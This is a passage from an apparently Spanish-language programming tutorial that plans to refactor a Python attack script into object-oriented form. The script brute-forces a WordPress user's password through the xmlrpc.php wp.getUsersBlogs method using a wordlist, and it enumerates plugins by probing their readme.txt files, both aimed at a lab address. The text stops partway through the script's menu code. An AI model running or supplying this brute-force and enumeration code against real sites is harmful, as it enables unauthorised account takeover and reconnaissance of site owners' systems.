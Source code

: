 Lo que haremos hoy será convertir el código siguiente en programación orientada a objectos:

````python
import sys
import requests


def bruteforce():
    url = 'http://172.17.0.2/wordpress/xmlrpc.php'
    username = 'luisillo'
    rockyou_path = 'diccionario.txt'

    with open(rockyou_path, 'r', encoding='latin-1') as file:
        passwords = file.readlines()

    for password in passwords:
        password = password.strip()
        xml_payload = f"""<?xml version="1.0" encoding="UTF-8"?>
        <methodCall>
            <methodName>wp.getUsersBlogs</methodName>
            <params>
                <param><value>{username}</value></param>
                <param><value>{password}</value></param>
            </params>
        </methodCall>"""

        print(f"[+] Probamos con la contraseña {password}")
        response = requests.post(url, data=xml_payload)

        if 'incorrectos.' not in response.text:
            print(f"[+] La contraseña del usuario {username} es {password}")
            sys.exit(0)


def plugin_enumeration():
    plugins = (
        "jetpack",
        "akismet",
        "contact-form-7",
        "woocommerce",
        "wordfence",
        "yoast-seo",
        "elementor",
        "w3-total-cache",
        "updraftplus",
        "wpforms",
        "wpmu-dev-forminator"
        #resto de plugins
    )

    base_url = "http://172.17.0.2/wordpress/wp-content/plugins/"

    for plugin in plugins:
        url = f"{base_url}{plugin}/readme.txt"
        response = requests.get(url)
        
        if response.status_code == 200:
            print(f"[+] Plugin encontrado: {plugin}")


choice = input("Introduce 1 para ejecutar la función 'bruteforce' o 2 para ejecutar 'plugin_enumeration': ")

if choice == '1':
````